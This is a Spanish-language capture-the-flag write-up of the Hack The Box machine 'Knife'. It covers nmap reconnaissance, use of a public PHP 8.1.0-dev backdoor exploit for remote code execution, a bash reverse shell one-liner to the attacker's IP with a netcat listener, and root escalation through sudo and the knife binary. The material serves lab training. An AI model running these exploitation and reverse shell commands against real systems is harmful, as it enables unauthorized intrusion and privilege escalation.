 ```yaml
---
layout: single
title: Hack The Box Knife
excerpt: "Resolución de la máquina Knife en la plataforma de Hack The Box"                         
date: 2021-09-15
classes: wide
header:
  teaser: /assets/images/htb-knife/knife.jpg
  teaser_home_page: true                     
categories:                                     
  - Easy
  - Linux
tags:
  - PHP
  - GTFOBin
  - Backdoor
---
```

![](/assets/images/htb-knife/banner-knife.jpg)

## Knife
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.242.

```bash
❯ ping -c 1 10.10.10.242
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=144 ms

--- 10.10.10.242 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 143.579/143.579/143.579/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 17:50 CDT                                                                  
Initiating SYN Stealth Scan at 17:50
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 17:50, 24.08s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242                           
Host is up, received user-set (0.43s latency).                                                                                   
Scanned at 2021-09-14 17:50:32 CDT for 24s
Not shown: 41264 closed tcp ports (reset), 24269 filtered tcp ports (no-response)                                                
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON                                                                                                      
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63   
                                
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.58 seconds
           Raw packets sent: 117364 (5.164MB) | Rcvd: 43489 (1.740MB)
```

Mediante la función [extractPorts](/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts                                         
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp                                                                                                  
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │                                                        
   2   │ [*] Extracting information...
   3   │                   
   4   │     [*] IP Address: 10.10.10.242
   5   │     [*] Open ports: 22,80
   6   │                                                                                                                         
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 17:51 CDT
Nmap scan report for 10.10.10.242
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.56 seconds
```

Utilizamos la herramienta `whatweb` para observar que tecnologías está utilizando el sitio web.

```bash
❯ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Podemos observare el uso de `PHP/8.1.0-dev` el cual existen un exploit público *PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution* el cual podemos aprovechar para obtener acceso a la máquina; por lo que lo descargamos y observamos que nos pide.

[PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933)

Al ejecutarlo, no solicita la dirección URL de la máquina víctima, la ingresamos y nos proporciona una shell interactiva y para trabajar mas cómodos, nos entablamos una reverse shell y hacimiento un [Tratamiento de la tty](/tratamiento-tty):

```bash
❯ python exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ whoami
james

$ bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.242] 42470
bash: cannot set terminal process group (970): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Ahora nos falta escalar privilegios, por lo tanto, enumramos un poco el sistema para determinar de que forma podemos ser usuario **root**.

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/$
```

Observamos que podemos ejecutar el binario *knife* como el usuario **root**; por lo que vamos a nuestra fuente de confianza ***GTFOBins*** para escalar privilegios:

[GTFOBins](https://gtfobins.github.io/gtfobins/knife/)

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# 
```
Ahora ya somos administradores del sistema y podermos visualizar la flag (root.txt).

